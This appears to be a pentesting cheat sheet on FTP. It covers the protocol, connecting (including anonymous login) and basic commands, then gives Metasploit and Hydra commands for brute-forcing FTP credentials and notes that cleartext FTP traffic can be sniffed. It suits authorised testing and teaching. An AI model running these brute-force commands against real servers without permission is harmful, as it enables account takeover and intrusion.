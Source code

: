 # File Transfer Protocol (FTP)

## Summary
- [Theory](#theory)
- [Basic usage](#basic-usage)
  - [Connecting to the server](#connecting-to-the-server)
  - [Useful commands](#useful-commands)
- [Common attacks](#common-attacks)
  - [Brute-force credentials](#brute-force-credentials)
  - [FTP sniffing](#ftp-sniffing)

## Theory
The File Transfer Protocol (FTP) is a standard network protocol used for the transfer of files between a client and server. It usually runs on ports 21/tcp or 2121/tcp.

## Basic usage
### Connecting to the server
`ftp username@10.0.0.1 -p 21`
Some FTP servers are configured to let users connect anonymously without credentials.
`ftp anonymous@10.0.0.1 -p 21`

### Useful commands
| Commands | Description |
| -------- | ----------- |
| cd       | Change directory |
| ls       | List files |
| get      | Download files |
| put      | Upload files |
| help     | Display help informations |

***Hidden files can be listed with ls -la.***

## Common attacks
### Brute-force credentials
Using Metasploit-Framework module
```
msfconsole
use auxiliary/scanner/ftp/ftp_login
set RHOSTS 10.0.0.1
set RPORT 21
set USER_FILE /path/to/wordlists.txt
set PASS_FILE /path/to/wordlists.txt
```
Using Hydra
```
hydra -s 21 ssh://10.0.0.1 -l username -P passwords.txt
hydra -s 2121 ftp://10.0.0.1 -L usernames.txt -p password -t 64
```

### FTP sniffing
Requirements
- **FTP communications are not encrypted.**
- **Attacker is on the same network as client or server.**
- **Sniff data packet back & forth the client and server with Wireshark**
